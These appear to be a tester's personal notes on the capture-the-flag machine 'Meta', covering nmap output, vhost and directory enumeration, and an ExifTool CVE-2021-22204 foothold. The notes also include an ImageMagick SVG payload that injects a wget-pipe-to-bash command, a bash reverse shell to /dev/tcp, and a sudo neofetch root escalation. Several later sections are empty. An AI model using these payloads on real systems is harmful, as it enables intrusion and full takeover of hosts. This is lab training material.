

# Summary


## about target

tip:  10.129.98.248

hostname:  Meta

Difficulty:  Medium


## about attack


**attack note**

```bash
Meta / 10.129.98.205

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 1281175a5ac9c600dbf0ed9364fd1e08 (RSA)
|   256 b5e55953001896a6f842d8c7fb132049 (ECDSA)
|_  256 05e9df71b59f25036bd0468d05454420 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---- Interesting
-- 


---- Enum 

# no insteresting thins.
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u artcorp.htb -o gobuster-dns.log

# found dev01
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://artcorp.htb -H "Host: FUZZ.artcorp.htb" --hh 0 | tee wfuzz-subdomain.log

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://dev01.artcorp.htb/metaview -o gobuster-dev01.log -t 30 -x php

feroxbuster -u http://dev01.artcorp.htb/metaview -x php

gobuster dns -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -d artcorp.htb

---- Foothold
-- www shell
# exiftool exploit
https://github.com/UNICORDev/exploit-CVE-2021-22204/blob/main/exploit-CVE-2021-22204.py

python ./exploit-CVE-2021-22204.py -s 10.10.14.14 9001 -i imgshell.jpg

---- System
-- shell thomas
vim thomas.svg

<image authenticate='ff" `wget -O - http://10.10.14.14/shell.txt | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:thomas.svg" height="100" width="100"/>
  </svg>
</image>

echo 'bash -c "bash -i >& /dev/tcp/10.10.14.14/9001 0>&1"' > shell.txt

-- root
# exploit sudo neofetch
export XDG_CONFIG_HOME=/home/thomas/.config

echo 'exec /bin/bash' >> .config/neofetch/config.conf

sudo /usr/bin/neofetch
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


# Foothold





# Privesc


## proof

```bash


```


